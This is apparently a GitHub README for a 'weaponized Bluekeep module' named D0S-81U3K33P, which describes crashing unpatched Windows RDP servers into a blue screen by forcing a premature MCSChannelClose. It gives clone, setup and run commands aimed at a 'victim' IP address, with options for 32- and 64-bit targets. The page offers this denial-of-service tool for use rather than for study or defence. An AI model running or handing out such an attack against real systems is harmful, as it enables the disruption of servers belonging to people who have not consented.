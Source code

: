 # D0S-81U3K33P
<p><b>
  This is a weaponized Bluekeep module, that will cause an unpatched server , to crash or worse , Cause a BSOD. 
  his module works by sending crafted data required to trigger the call to MCSChannelClose.
  This causes prematurely closing an internal channel, which results in a BSOD on the victim machine.
  
</p></b>

<p><b>
Installation instructions : 
  
  <p><b>git clone https://github.com/TheEyeOfCyber/D0S-81U3K33P</p></b>
  <p><b>cd D0S-81U3K33P</p></b>
  <p><b>chmod +x setup.sh</p></b>
  <p><b>./setup.sh    # to clone the impackets module </p></b>
  <p><b>8sod3x910i7.py "IP" 64</p></b>
  <p><b>or</p></b>
  <p><b>python 8sod3x910i7.py "IP" 32 </p></b>
  <p><b>depending on the victim machine architecture </p></b>
  
  
</p></b>

<p><b>#Author :#Humayun Ali Khan #Mammona Aslam</p></b>

<p></b>
  <p><b>Youtube: https://www.youtube.com/c/theeyeofcyberbuckeyesecurityofficial</p></b>
   <p><b>Fb Group: https://www.facebook.com/groups/theeyeofcyberbuckeyesecurtiy/</p></b>
</p></b>

